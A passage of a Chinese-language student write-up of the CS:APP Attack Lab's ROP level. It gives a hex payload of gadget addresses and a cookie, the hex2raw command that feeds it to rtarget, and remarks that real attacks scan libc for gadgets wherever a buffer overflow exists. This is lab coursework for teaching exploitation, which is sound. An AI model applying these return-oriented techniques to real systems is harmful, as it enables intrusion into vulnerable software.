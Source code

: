 ```c
48 00 00 00 00 00 00 00    
dd 19 40 00 00 00 00 00    
69 1a 40 00 00 00 00 00   
27 1a 40 00 00 00 00 00    
d6 19 40 00 00 00 00 00   
a2 19 40 00 00 00 00 00   
fa 18 40 00 00 00 00 00  
35 39 62 39 39 37 66 61
```
然后执行以下命令即可通关
```bash
./hex2raw < rl2.txt | ./rtarget -q
```

PS：我一开始死脑筋认为n就是1，也就说紧靠着栈顶，结果悲剧了，其实n为1也不是不可以，但是farm.c中没有对应的gadget来配合这种情况，根据ROP的原理可以推测，栈中连续放置着一系列gadget的地址，如果地址中间又夹杂着一些非地址的数据则非常麻烦，此时需要push或者pop之类的指令来配合使得栈指针跳过这些数据，然而这要的gadget不太好找。总结这关的难点就是你的思路不一定有gadget可以支持，那么此时你就需要绕来绕去，以找到适合的gadget，而这过程非常繁琐。因此在攻击展开前，最好**有工具能扫描一下可利用的代码，列出可利用的指令**，则不用费劲去猜想了，而现实攻击中通常是会去扫描并利用libc的，ROP的厉害之处是只要系统有一处地方存在缓冲区溢出，则可以实施攻击。 